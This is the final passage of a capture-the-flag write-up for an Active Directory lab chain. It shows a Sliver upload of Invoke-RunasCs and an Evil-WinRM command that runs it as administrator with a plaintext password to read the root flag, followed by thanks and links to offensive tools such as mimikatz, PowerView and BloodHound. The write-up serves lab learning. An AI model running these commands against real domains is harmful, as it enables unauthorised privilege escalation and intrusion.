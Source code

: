 ```
sliver > upload RunasCs/Invoke-RunasCs.ps1

*Evil-WinRM* PS C:\Users\Public\Desktop> Import-Module .\Invoke-RunasCs.ps1; Invoke-RunasCs administrator "password123@" "cmd.exe /c type C:\users\administrator\desktop\root.txt"
```

This will open the file and allow us to read the contents of the `root` flag. Thus, we have completed this chain!

# Conclusion

Big thanks to `r0BIT` for creating this chain, as it was extremely helpful in understanding Domain Dominance and EFS encryption. Helped a lot to help myself understand these topics and how to perform them mainly through Kali (and with some help through Mimikatz).

# Resources

https://github.com/dirkjanm/BloodHound.py
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux
https://www.exploit-db.com/exploits/10484
https://github.com/Sysinternals/ProcMon-for-Linux?tab=readme-ov-file
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
https://github.com/BishopFox/sliver
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
https://github.com/ParrotSec/mimikatz
https://github.com/antonioCoco/RunasCs
